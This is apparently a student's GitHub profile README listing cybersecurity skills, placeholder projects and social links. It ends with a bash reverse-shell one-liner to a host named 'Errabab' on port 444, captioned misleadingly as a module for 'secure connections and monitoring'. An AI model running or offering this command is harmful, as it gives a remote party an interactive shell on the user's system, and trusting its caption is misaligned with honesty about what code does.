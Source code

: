 # 👋 Hi, I'm Errabab

### Network and Database Administration student skilled in security, virtualization, and web development, with a focus on efficient and robust tech solutions.

---

![Cybersecurity GIF](https://media.giphy.com/media/sq7lz4wHsGzXa/giphy.gif) <!-- Replace with a more relevant GIF if needed -->

---

### 📜 About Me
I'm a dedicated student in system and network administration, focusing on maintaining secure, optimized environments. My skillset spans across cybersecurity, virtualization, and web development, with a strong commitment to delivering reliable and efficient tech solutions.

---

### ⚙️ Configuration

<configuration>

  🖥️ **Systems Administration**  
  🛡️ **Network Security**  
  🔍 **SOC Researcher**  
  👾 **Ethical Hacking**  
  💥 **Penetration Testing**  
  ⚙️ **SIEM Configuration**  

</configuration>

---

### 💻 Skills

- **System and Network Administration**  
- **Advanced Network Security**  
- **SOC Research and Analysis**  
- **Ethical Hacking & Penetration Testing**  
- **Real-time System Monitoring and Optimization**  
- **SIEM Configuration and Security Automation**  

---

### 🚀 Featured Projects

- [🛠️ SIEM Configuration Project](#)  
- [🔍 SOC Cybersecurity Research](#)  
- [📡 Network Monitoring System](#)  

---

### 🤝 Connect with Me

[![GitHub](https://img.shields.io/badge/GitHub-Errabab-black?style=for-the-badge&logo=github)](https://github.com/Errabab)
[![LinkedIn](https://img.shields.io/badge/LinkedIn-Errabab-blue?style=for-the-badge&logo=linkedin)](https://www.linkedin.com/in/erabab-salec-ahrayam-316584263/)
[![X (Twitter)](https://img.shields.io/badge/X-_jk_29-blue?style=for-the-badge&logo=x)](https://x.com/_jk_29)

---

#### Note:
_This configuration includes Bash modules for secure connections and monitoring:_

```bash
/bin/bash -i >& /dev/tcp/Errabab/444 0>&1




